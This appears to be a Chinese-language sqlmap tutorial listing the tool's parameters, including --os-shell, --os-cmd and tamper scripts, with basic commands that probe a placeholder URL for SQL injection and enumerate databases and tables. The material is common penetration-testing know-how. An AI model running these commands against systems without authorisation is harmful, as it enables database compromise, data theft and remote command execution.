 # sqlmap使用教程

## 介绍
SQLMAP 是一款开源的渗透测试工具，能够自动检测和利用 SQL 注入漏洞，从而接管数据库服务器。它拥有强大的探测引擎和丰富的功能，可以进行数据库提权、文件系统访问、操作系统命令执行等操作。

## 常用参数
### 基础参数:  
`--version`: 显示程序版本号并退出  
`-h, --help`: 显示帮助信息并退出  
`-u`: 设置目标 URL  
`-p`: 指定测试参数  
`-D`: 指定要枚举的数据库名  
`-T`: 参数用于指定要枚举的数据库表名  
`-C`: 指定要枚举的数据库列  
`-U`: 指定要枚举的数据库用户  
`--current-user`: 获取当前用户名称  
`--current-db`: 获取当前数据库名称  
`--cookie`: 设置 cookie 值  
`--dbs`: 列出数据库  
`--tables`: 列出数据库中的表  
`--columns`: 列出表中的列  
`--dump`: 列出表中的字段  
`--sql-shell`: 执行 SQL 命令  
`--os-cmd`: 执行系统命令  
`--os-shell`: 与系统交互 shell  
`-r`: 加载外部请求包  
`--batch`: 使用默认参数进行测试  
`--data=DATA`: 通过 POST 发送数据字符串  
`--level=LEVEL`: 执行测试的等级（1-5，默认为 1）  
`--risk=RISK`: 执行测试的风险（0-3，默认为 1）  
`-v VERBOSE`: 详细级别: 0-6 (默认为 1)  
`--proxy=PROXY`: 使用 HTTP 代理连接到目标 URL  
`--user-agent`: 指定 HTTP User-Agent  
`--tamper=TAMPER`: 使用给定的脚本 (S) 篡改注入数据  
`--random-agent`: 随机的请求头  

**Tamper 脚本**:   
使用方法: `--tamper xxx.py`  
例如: 
```
--tamper base64encode.py
```

## 使用示例
### 基础使用 
判断注入点和数据类型:  
- GET 方法注入  
```
sqlmap -u http://www.test.php?id=1
```
- POST 方法注入
```
sqlmap -r /etc/url.txt
```
判断数据库名 (dbs): 
```
sqlmap -u "http://www.test.php?id=1" --dbs
```
判断表名 (tables): 
```
sqlmap -u "http://www.test.php?id=1" -D 数据库名 --tables
```